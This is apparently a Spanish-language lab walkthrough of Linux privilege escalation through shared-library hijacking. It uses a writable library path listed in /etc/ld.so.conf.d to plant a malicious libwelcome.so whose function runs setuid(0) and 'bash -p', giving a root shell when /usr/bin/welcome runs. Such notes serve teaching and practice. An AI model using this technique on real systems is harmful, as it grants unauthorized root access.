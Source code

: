```bash
ls -l /etc/ | grep "ld.so.conf.d"
```
**Salida
```
drwxr-xr-x 1 root root 4096 Sep 26 2025 ld.so.conf.d
```
*El propietario es `root` pero otros no pueden escribir* no tengo capacidad de escritura en esta ruta.
Si tuviera capacidad de escritura en el directorio `ld.so.conf.d` podría haber creado un archivo de configuración a través del cual indicar a qué ruta tiene que ir para encontrar el `libwelcome.so`

En la ruta `/etc/ld.so.conf.d` se encuentra un archivo `custom` y esta involucrando la ruta `/home/student/lib`entramos y el direcotorio `lib` no exite. Lo creamos `mkdir lib` y dentro del directorio `lib` creamos un archivo `vi test.c`:
```c
#include <stdio.h>
#include <unistd.h>

int welcome() {
    setuid(0);
    setgid(0);
    system("bash -p");
    return 0;
}
```
**Creamos una biblioteca compartida**
```bash
gcc -fPIC -shared test.c -o libwelcome.so
```
*Nos aparece un `WARNING` pero nos crea de todos modos*

**Ahora si este `libwelcome.so` lo meto en el directorio `lib`
```bash
mv libwelcome.so lib
```

**Hacemos un**:
```bash
ldd /usr/bin/welcome
```

**Salida**
```bash
linux-vdso.so.1 (0x00007ffe857dc000)
libwelcome.so => /home/student/lib/libwelcome.so (0x00007fd33149d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f675e329000)
/lib64/ld-linux-x86-64.so.2 (0x00007f675e91c000)
```
*Ahora secuestramos*

Ejecutamos el `welcome` ahora somos `root`
```bash
whoami
```

[!NOTA] No se puede secuestrar funciones de bibliotecas compartidas que estén enlazadas estáticamente, porque las funciones, en este caso de la biblioteca, están incrustadas en el ejecutable mismo, no las busca en otro lugar

---


### Herramientas

[uftrace](https://github.com/namhyung/uftrace)
